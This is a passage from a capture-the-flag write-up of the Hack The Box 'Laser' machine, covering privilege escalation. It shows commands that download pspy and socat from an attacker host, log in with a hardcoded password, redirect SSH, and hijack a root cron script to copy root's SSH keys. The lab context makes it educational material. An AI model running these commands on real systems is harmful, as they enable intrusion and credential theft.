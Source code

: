 ## Getting Root

The current shell is not much stable so let's add our ssh keys into authorized_keys for solr and
Now Let's upload [PsPy](https://github.com/DominicBreuker/pspy) to machine using curl. Pspy snoops processes without root permisson.

```python
python -m SimpleHTTPServer 80 #on attacker machine
curl http://10.10.14.12/pspy64 -o pspy64 #on victim machine
chmod +x pspy64 #on victim machine
```

![DockerPass](/images/Hackthebox/Laser/Docker_Pass.png)

We got a passoword for root!! but it is running /tmp/clear.sh on root, something is suspicous here. Let's see what is it.

```python
sshpass -p c413d115b3d87664499624e7826d8c5a ssh root@172.18.0.2
```

```

![Docker_login](/images/Hackthebox/Laser/Docker_Login.png)

This is not root!!! This is docker 
So Now as it is executing the /tmp/clear.sh then we can redirect the ssh back again to us.


```python
curl http://10.10.14.12/socat -o socat #on solr shell
chmod +x socat #on solr shell
cd tmp #on solr shell
service ssh stop #on docker
./socat -d TCP-LISTEN:22,fork,reuseaddr TCP:172.17.0.1:22 #on docker
```
After doing this we have to change the ownership rights so that we could copy the id_rsa of root to our solr use 

```python
cd /tmp
echo 'mkdir -p /tmp/purabparihar;cp -R /root/.ssh /tmp/purabparihar;chown -R solr:solr /tmp/purabparihar'> /tmp/clear.sh;chmod +x /tmp/clear.sh
```
Now keep spamming ls command because the cron job could be executed any time. 

![Cron](/images/Hackthebox/Laser/Cron.png)
Once we got folder named purabparihar then we have grab ssh keys from root!!
